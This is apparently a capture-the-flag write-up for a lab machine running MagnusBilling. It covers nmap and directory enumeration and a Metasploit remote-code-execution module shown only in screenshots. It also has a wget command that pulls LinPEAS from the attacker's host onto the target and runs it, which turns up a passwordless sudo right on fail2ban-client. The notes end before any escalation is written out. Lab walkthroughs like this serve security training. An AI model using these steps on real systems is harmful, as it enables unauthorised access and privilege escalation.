 # Billing
IP - 10.10.59.81

## Scanning and Enumeration
nmap scan:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling
|Requested resource was http://10.10.59.81/mbilling/
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
/robots.txt - found: /mbilling/

- MagnusBilling - found by going to HTML source code (ctrl + U)

## Exploit (msfconsole - Remote Code Execution)
- In msfconsole searched for MagnusBilling 
![image](https://github.com/user-attachments/assets/68f4782c-c1eb-4e5d-b169-ccba7dd631e7)
- set RHOST and LHOST and then ran the command
![image](https://github.com/user-attachments/assets/9d00dd2e-127f-4bfa-8a3b-9b850ad14913)

- Navigate /home > found user "magnus" and inside his files I found the first flag.
- found id
``` 
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
``` 
- Executed LinPEAS to get more info about the machine:
-> ``` python3 -m http.server 8000 ``` (opened new tab in the terminal and ran this command in LinPEAS directory)
2). On the target machine I ran those 3 commands: ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```
3). ``` chmod +x /tmp/linpeas.sh ```
4). ``` /tmp/linpeas.sh ```
5). results found:
```
Runas and Command-specific defaults for asterisk:
Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```
> indicating that you can run fail2ban-client without a password


fff


![image](https://github.com/user-attachments/assets/ccf1934f-1b38-49a2-9288-182c3b35fc81)
![image](https://github.com/user-attachments/assets/e7ed40cb-c154-4ef2-ba5f-61ed88d15968)
